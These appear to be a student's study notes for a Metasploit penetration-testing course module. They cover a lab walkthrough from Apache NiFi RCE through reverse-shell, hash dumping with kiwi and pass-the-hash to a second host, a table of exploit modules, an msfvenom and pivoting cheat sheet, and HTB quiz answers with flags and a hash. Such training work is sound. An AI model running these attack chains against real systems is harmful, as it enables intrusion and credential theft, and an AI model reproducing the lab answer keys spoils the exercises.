> 🔧 Technique: **Apache NiFi unauthenticated RCE.** NiFi is a Java-based data flow tool common in enterprise data pipelines. Older versions (pre-1.14 without auth enforced) expose a REST API that lets anyone create an `ExecuteProcess` processor, essentially a scheduled task that runs an arbitrary OS command. No auth, no CVE, just a feature abused. MSF module: `exploit/multi/http/apache_nifi_processor_rce`. Always `set SSL false` when connecting to a plain HTTP NiFi instance, the module defaults to SSL and fails with a TLS handshake error.

> 🔍 Worth remembering generally: When an MSF module fails with `SSL_connect wrong version number`, it's trying HTTPS against a plain HTTP service. `set SSL false` (with no `!` at the prompt, just set it) and re-run.

> 🔍 Worth remembering generally: **Credential reuse via hash naming convention.** `creds_msv` on VM#1 returned a local account called `itwk04admin`. The hostname in the name (`itwk04`) is the exact hostname of VM#2. This is a common pattern: admins create named service accounts on each machine with a matching password. Dump hashes, look for usernames that reference other hostnames, try PtH against those machines. No network-level pivoting needed when both hosts are on the same reachable subnet.

**Capstone network topology:**



**VM#1 (192.168.249.225 — ITWK03):**
- nmap found Apache NiFi 1.17.0 on port 8080 (Windows, no auth)
- Used `exploit/multi/http/apache_nifi_processor_rce` with `cmd/windows/powershell_reverse_tcp` (SSL false, DELAY 20) to get a PowerShell session as `alex`
- Downloaded `met.exe` via `iwr`, caught with `multi/handler`. Meterpreter session as `alex`
- `getsystem` via Named Pipe Impersonation (PrintSpooler) → SYSTEM
- `load kiwi` + `creds_msv` dumped three hashes including `itwk04admin` (NTLM: `445414c16b5689513d4ad8234391aacf`)

**VM#2 (192.168.249.226 — ITWK04):**
- Both VMs on same /24, no network-level pivot needed, credential-based lateral movement
- `exploit/windows/smb/psexec` with `itwk04admin` hash (PtH) → Meterpreter session 3 as SYSTEM
- `type C:\Users\itwk04admin\Desktop\flag.txt` → `OS{05cf9f9964751cf5fd9d380efc330fb7}`

> 📸 Screenshot: creds_msv output showing itwk04admin hash
> 📸 Screenshot: flag.txt on ITWK04 Desktop

---

## 21.5 HTB Named Exploits Reference

Exploits introduced in the HTB Using the Metasploit Framework module (not covered by the Offsec module labs):

| Module path | Target / Vulnerability | Key options |
|---|---|---|
| `exploit/linux/http/apache_druid_js_rce` | Apache Druid 0.20.0 -- JavaScript RCE | RHOSTS + LHOST; payload: `linux/x64/meterpreter/reverse_tcp` |
| `exploit/linux/http/elfinder_archive_cmd_injection` | elFinder 2.1.53 -- archive command injection | RHOSTS + LHOST; creates/removes temp files during exploitation |
| `exploit/linux/local/sudo_baron_samedit` | sudo 1.6.8--1.9.3p1 -- heap buffer overflow (CVE-2021-3156) | Requires SESSION (existing shell); use LPORT different from 4444 |
| `exploit/windows/http/fortilogger_arbitrary_fileupload` | FortiLogger 4.4.2.2 -- arbitrary file upload | RHOSTS + LHOST; IIS 10.0 on port 5000 in the lab |

**sudo_baron_samedit (CVE-2021-3156):** discovered January 2021. Affects sudo 1.6.8 through 1.9.3p1 (all builds before 1.9.5p2). Heap-based buffer overflow in sudo's argument parsing -- exploitable by any local user with no sudo privileges required. Gives root.

**elFinder RCE:** PHP-based web file manager. CVE-2021-23925 archive injection -- module uploads a text file, creates a zip with a crafted name to trigger command injection, delivers Meterpreter stager.

> 🔁 EternalRomance (`exploit/windows/smb/ms17_010_psexec`) is searched in the HTB module but already documented in [[12. Client-Side Attacks|Client-Side Attacks]] -- not repeated here.

**HTB section Q&A answers:**

| Section | Question | Answer |
|---|---|---|
| Introduction to Metasploit | Commercial version name? | **Metasploit Pro** |
| Introduction to Metasploit | Open-source console interface? | **msfconsole** |
| Modules | EternalRomance flag on Administrator Desktop? | **HTB{MSF-W1nD0w5-3xPL01t4t10n}** |
| Payloads | Apache Druid flag at /root/flag.txt? | **HTB{MSF_Expl01t4t10n}** |
| Sessions & Jobs | Web app visible in HTML source? | **elFinder** |
| Sessions & Jobs | Username after elFinder shell? | **www-data** |
| Sessions & Jobs | Flag at /root/flag.txt (after Baron Samedit)? | **HTB{5e55ion5_4r3_sw33t}** |
| Meterpreter | Username from FortiLogger shell? | **nt authority\system** |
| Meterpreter | NTLM hash for htb-student? | **cf3a5525ee9414229e66279623ed5c58** |

---

## Key Commands Reference

```bash
# === SETUP ===
sudo msfdb init
sudo msfconsole [-q] [-r script.rc]
db_status
workspace [-a NAME]

# === DATABASE ===
db_nmap -A TARGET
hosts | services [-p PORT] | vulns | creds | loot
services -p PORT --rhosts        # set RHOSTS from DB

# === MODULE WORKFLOW ===
search [type:TYPE] KEYWORD
use MODULE_OR_INDEX
info | show options | show payloads | show missing | show advanced
set OPT VALUE | unset OPT | setg OPT VALUE | unsetg OPT
check                            # dry-run (if module supports it)
run | run -j | run -z -j
sessions [-l | -i ID | -k ID]
jobs
background / bg

# === METERPRETER ===
sysinfo | getuid | getpid | idletime
getsystem
ps | migrate PID
execute -H -f notepad
shell | channel [-l | -i ID]
download REMOTE | upload LOCAL REMOTE
lcd PATH | lpwd | lcat LOCAL_FILE
search -f FILENAME
load kiwi → creds_msv | creds_all | lsa_dump_sam
getenv VAR
portfwd add -l LOCAL_PORT -p REMOTE_PORT -r REMOTE_HOST
portfwd list

# === PIVOTING ===
route add SUBNET/MASK SESSION_ID
route print | route flush
use multi/manage/autoroute → set SESSION ID → run
use auxiliary/server/socks_proxy → set SRVHOST 127.0.0.1 → set VERSION 5 → run -j

# === MSFVENOM ===
msfvenom -l payloads [--platform PLATFORM --arch ARCH]
msfvenom -p PAYLOAD LHOST=IP LPORT=PORT -f FORMAT -o FILE
# Common formats: exe (Windows), elf (Linux), raw (PHP/scripts), war (Tomcat)
```

---

## 🎯 Related Boxes to Practice

**Direct MSF exploit module practice:**
- HTB **Lame**, vsftpd/SMB `usermap_script` via MSF, classic intro to exploit modules
- HTB **Legacy**, `ms08_067_netapi` MSF module, Meterpreter on XP
- HTB **Blue**, `ms17_010_eternalblue` via MSF, Meterpreter post-exploitation with `hashdump`

**msfvenom payload generation:**
- HTB **Devel**, msfvenom ASPX payload + multi/handler, Windows IIS target
- HTB **Jerry**. Tomcat WAR delivery chain (msfvenom `-f war`)

**Meterpreter post-exploitation (getsystem / migrate / Kiwi):**
- HTB **Grandpa / Granny**, token impersonation → getsystem path, dated but classic
- HTB **Optimum**. MSF Windows kernel exploit chain

**Pivoting through Metasploit:**
- HTB **Bastard**, post-exploitation pivoting; autoroute usage
- PG **Astronaut**, multi-hop pivot chain, good autoroute + socks_proxy practice

> Heavily signatured Meterpreter payloads are rarely bypassed in public HTB/PG free-tier labs since most don't run real AV. That evasion gap is covered in [[15. Antivirus Evasion|Antivirus Evasion]].

---

## Video Walkthroughs

Search [ippsec.rocks](https://ippsec.rocks) for: `metasploit` `meterpreter` `msfvenom` `autoroute` `kiwi` `nifi`

| Box | Why watch it | ippsec search term |
|---|---|---|
| HTB **Lame** | First MSF exploit module (vsftpd + usermap_script), basic session workflow | `lame metasploit` |
| HTB **Legacy** | `ms08_067_netapi` exploit, Windows XP Meterpreter, classic post-exploitation | `legacy metasploit` |
| HTB **Blue** | EternalBlue via MSF, `hashdump`, Meterpreter post-exploitation workflow | `blue eternalblue` |
| HTB **Devel** | msfvenom ASPX payload, multi/handler, IIS file upload foothold | `devel msfvenom` |
| HTB **Jerry** | Tomcat WAR file delivery, msfvenom `-f war` | `jerry tomcat` |
| HTB **Grandpa** | Token impersonation → getsystem, old but shows the full path clearly | `grandpa getsystem` |

---

#### Tags: #Module21 #Metasploit #MSF #Meterpreter #msfvenom #AuxiliaryModules #ExploitModules #PostExploitation #StagedPayloads #Kiwi #Pivoting #ResourceScripts #ExploitFrameworks #ApacheNiFi #PtH #LateralMovement #CredentialReuse
